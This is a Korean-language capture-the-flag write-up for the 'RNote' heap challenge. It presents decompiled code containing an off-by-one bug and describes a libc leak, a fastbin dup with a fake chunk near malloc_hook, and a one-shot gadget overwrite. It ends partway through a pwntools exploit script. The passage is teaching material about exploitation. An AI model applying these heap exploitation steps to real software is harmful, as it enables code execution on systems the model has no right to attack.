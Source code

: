 ### 4. Exit
특별한 것 없이 exit(0)합니다.

## Exploit
일단 title을 입력받는 sub_4009C7에서 문제의 핵심이 되는 취약점인 Off-By-One이 터지게 됩니다.
```c
__int64 __fastcall sub_4009C7(__int64 a1, signed int a2)
{
  char buf; // [rsp+1Bh] [rbp-5h]
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= a2; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(a1 + i) = buf;
    if ( *(i + a1) == 10 )
    {
      *(i + a1) = 0;
      return i;
    }
  }
  return i;
}
```
for의 조건이 i<a2가 아닌 i<=a2로 되있어, 16 바이트가 아닌 17 바이트를 입력할 수 있는 Off-By-One이 발생합니다.

처음에는 이를 통해 title과 &content 사이의 NULL을 덮어 heap base leak을 했는데, 딱히 쓸모가 없었습니다.

삽질 중에 free나 show시 free_flag를 검사하기 때문에 unsorted bin의 main_arena+88를 leak하거나 fastbin dup에 어려움을 겪었는데,

위에서 언급한 Off-By-One으로 &content의 하위 1 바이트를 덮어 해결할 수 있었습니다.

특정 &content의 하위 1 바이트를 free/show 하고자 하는  &content의 하위 1 바이트로 덮어버리면, 

free_flag는 1인 상태에서 포인터는 원하는 content를 가르키기에 unsorted bin으로 libc를 leak하거나 fastbin dup이 가능하기 때문입니다.

이를 이용해 main_arena+88 leak으로 Oneshot Gadget과 malloc_hook의 주소를 구하고, fastbin dup으로 malloc_hook을 덮으면 됩니다.

hook을 덮을 땐 malloc_hook의 주소가 0x7f으로 시작함을 이용해 malloc_hook 조금 앞에 size가 0x7f인 fake chunk를 만들어주면 됩니다.

exp.py
```python
from pwn import *

p = process('./RNote')
e = ELF('./RNote')
#l = ELF('./libc.so.6')

def add(size, title, content):
	p.recvuntil('choice: ')
	p.sendline('1')
	p.recvuntil(': ')
	p.sendline(str(size))
	p.recvuntil(': ')
	p.send(title)
	p.recvuntil(': ')
	p.send(content)

def delete(idx):
	p.recvuntil(': ')
	p.sendline('2')
	p.recvuntil(': ')
	p.sendline(str(idx))
	
```